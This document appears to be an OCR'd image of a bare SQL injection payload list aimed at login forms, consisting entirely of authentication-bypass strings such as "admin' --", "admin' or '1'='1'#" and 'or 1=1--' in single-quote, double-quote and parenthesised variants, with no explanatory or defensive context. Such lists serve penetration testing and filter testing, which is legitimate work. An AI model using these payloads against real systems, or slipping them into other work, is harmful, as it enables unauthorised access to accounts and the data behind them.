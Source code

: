 # d
or 1=1
# 

or 1=1--
#
or 1=1#
#
or 1=1/*
#
admin' --
#
admin' #
##
admin' /*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin' or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ( '1'='1
admin') or ( '1'='1'--
admin') or ( '1'='1'#
admin') or ( '1'='1'/*
admin') or '1'='1
admin') or '1'='1'
admin') or '1'='1'#
admin') or '1'='1'/*

admin" #
admin" /*
admin" --
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin" or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
